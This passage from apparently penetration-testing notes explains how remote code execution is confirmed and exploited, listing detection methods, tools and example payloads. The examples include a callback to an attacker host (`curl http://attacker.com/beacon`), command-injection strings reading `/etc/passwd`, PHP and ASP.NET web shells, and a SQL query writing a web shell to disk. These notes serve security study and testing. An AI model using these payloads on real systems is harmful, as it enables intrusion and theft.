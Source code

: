         - **Output-based:** Check if the command output is directly reflected in the web response.
            
        - **Blind (Time-based):** Inject a time-delay command (e.g., `sleep 10`) and observe if the response is delayed.
            
        - **Blind (Out-of-band):** Inject a command that triggers an external network connection (e.g., `curl http://attacker.com/beacon`) or a DNS lookup to an attacker-controlled server, and monitor logs on the attacker's side.
            
        - **File-based:** Inject a command to create/delete a file on the server and then try to access/verify it.
            
    6. **Establish Persistence (Reverse Shell/Web Shell):** Once RCE is confirmed, the attacker will typically try to establish a more stable connection, such as a reverse shell (connecting back to the attacker's machine) or upload a web shell for easier command execution.
        
- **Payload examples (categorized by underlying vuln leading to RCE)**
    
    - **Command Injection:**
        
        - `127.0.0.1; id` (Linux)
            
        - `127.0.0.1 & whoami` (Windows)
            
        - `$(cat /etc/passwd)` (Linux, often embedded in another command)
            
    - **Insecure Deserialization:** (Highly language/framework specific, often Base64 encoded binary data)
        
        - Java (conceptual, generated by `ysoserial`): `rO0ABXNyABJOYW1hbGljb3VzR2FkZ2V0AAAAAAAAAAECAAFMAAdjb21tYW5kdAASTGphdmEvbGFuZy9TdHJpbmc7eHB0AApjYWxjLmV4ZQ==` (Base64 of serialized object to run `calc.exe`)
            
    - **File Upload (Web Shell):**
        
        - `<?php system($_GET['cmd']); ?>` (PHP web shell)
            
        - `<%@ Page Language="C#" %> <% System.Diagnostics.Process.Start(Request.QueryString["cmd"]); %>` (ASP.NET web shell)
            
    - **Code Injection (Python `eval`):**
        
        - `__import__('os').system('ls -la')` (often needs to bypass filters)
            
    - **SQL Injection (MySQL `into outfile` with `FILE` privilege):**
        
        - `UNION SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php'`
            
- **Tools used**
    
    - **Web Proxies:** Burp Suite, OWASP ZAP (for intercepting, modifying requests, fuzzing).
        
    - **Command Line Tools:** `curl`, `netcat` (`nc`), `ncat`, `socat` (for sending requests, catching reverse shells).
        
    - **Exploit Frameworks:** Metasploit Framework (contains many RCE exploits).
        
    - **Specific Exploit Generators:** `ysoserial` (Java deserialization), `pwncat-cs` (reverse shells).
        
    - **Vulnerability Scanners:** Nessus, OpenVAS, Qualys, Nikto, web scanners (Burp Scanner, ZAP) can identify underlying vulnerabilities that lead to RCE.
        